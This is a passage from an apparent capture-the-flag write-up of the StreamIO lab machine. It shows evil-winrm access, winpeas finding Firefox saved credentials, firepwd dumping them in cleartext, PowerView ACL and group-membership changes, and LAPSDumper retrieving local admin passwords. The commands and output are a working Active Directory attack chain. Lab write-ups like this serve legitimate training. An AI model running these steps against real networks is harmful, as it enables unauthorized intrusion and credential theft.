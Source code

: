 ```console
zero@pio$ evil-winrm -i 10.10.11.158 -u nikk37 -p get_dem_girls2@yahoo.com
```

Inside, **winpeas** detect some mozilla credentials:

```
Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
```

We can use this [tool](https://github.com/lclevy/firepwd) to get it in cleartext:

```
admin:JDg0dd1s@d0p3cr3@t0r
nikk37:n1kk1sd0p3t00
yoshihide:paddpadd@12
JDgodd:password@12
```

We can now use PowerView to add the user to the group **CoreStaff**, which has admin privileges.

```console
*Evil-WinRM* PS C:\Users\nikk37\Documents> upload PowerView.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Password = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\nikk37\Documents> $Cred = New-Object System.Management.Automation.PSCredential('StreamIO\JDGodd', $Password)
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity "StreamIO\JDGodd"
*Evil-WinRM* PS C:\Users\nikk37\Documents> Add-DomainGroupMember -Identity "Core Staff" -Members "StreamIO\JDGodd" -Credential $Cred
```

Now use [LAPSdumper](https://github.com/n00py/LAPSDumper/) to generate a temporal credential and connect to it:

```console
zero@pio$ python3 laps.py -u JDGodd -p JDg0dd1s@d0p3cr3@t0r -d streamio.htb
```

Use it with `evil-winrm` to connect.